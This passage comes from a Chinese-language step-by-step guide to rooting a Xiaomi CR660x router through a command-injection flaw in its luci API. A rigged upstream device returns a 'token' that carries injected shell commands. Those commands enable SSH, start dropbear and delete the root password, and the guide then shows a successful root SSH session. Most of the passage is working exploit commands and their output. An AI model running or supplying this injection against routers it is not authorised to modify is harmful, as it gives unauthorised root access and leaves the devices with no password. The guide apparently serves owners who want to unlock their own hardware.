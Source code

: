通过无线连接 A, 手动设置连接的设备的 IP 地址为 `169.254.31.3`

访问 <http://169.254.31.1/cgi-bin/luci/api/xqsystem/token>

结果应该和步骤 (2) 的一样.

### 5 登录 B

登录 cr660x 路由器 (以下称为 B) 的 web 管理界面, 从 URL 获取 STOK

### 6 操作 B

6.1 访问
`http://{B 的 IP}/cgi-bin/luci/;stok={STOK}/api/misystem/extendwifi_connect?ssid={WIFI_NAME}&password={PASSWORD}`

其中 `{WIFI_NAME}` 是 A 的无线 SSID 名称, `{PASSWORD}` 是 A 的无线密码.

应该返回 0.

```
{"msg":"connect succces!","code":0}
```

6.2 访问
`http://{B 的 IP}/cgi-bin/luci/;stok={STOK}/api/xqsystem/oneclick_get_remote_token?username=xxx&password=xxx&nonce=xxx`

```
{"token":"; nvram set ssh_en=1; nvram commit; sed -i 's/channel=.*/channel=\u0022debug\u0022/g' /etc/init.d/dropbear; /etc/init.d/dropbear start; passwd -d root;","code":0}
```

### 7 连接 B (SSH)

在重启 B 之前, 应该能通过 SSH 连接 B 了.

```
> ssh root@192.168.31.1
Unable to negotiate with 192.168.31.1 port 22: no matching host key type found. Their offer: ssh-rsa
```

对于这个错误, 增加 SSH 参数即可:

```
> ssh -oHostKeyAlgorithms=+ssh-rsa root@192.168.31.1

Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.31.1' (RSA) to the list of known hosts.


BusyBox v1.25.1 (2022-05-30 18:05:32 UTC) built-in shell (ash)

 -----------------------------------------------------
       Welcome to XiaoQiang!
 -----------------------------------------------------
  $$$$$$\  $$$$$$$\  $$$$$$$$\      $$\      $$\        $$$$$$\  $$\   $$\
 $$  __$$\ $$  __$$\ $$  _____|     $$ |     $$ |      $$  __$$\ $$ | $$  |
 $$ /  $$ |$$ |  $$ |$$ |           $$ |     $$ |      $$ /  $$ |$$ |$$  /
 $$$$$$$$ |$$$$$$$  |$$$$$\         $$ |     $$ |      $$ |  $$ |$$$$$  /
 $$  __$$ |$$  __$$< $$  __|        $$ |     $$ |      $$ |  $$ |$$  $$<
 $$ |  $$ |$$ |  $$ |$$ |           $$ |     $$ |      $$ |  $$ |$$ |\$$\
 $$ |  $$ |$$ |  $$ |$$$$$$$$\       $$$$$$$$$  |       $$$$$$  |$$ | \$$\
 \__|  \__|\__|  \__|\________|      \_________/        \______/ \__|  \__|


=== WARNING! =====================================
There is no root password defined on this device!
Use the "passwd" command to set up a new password
```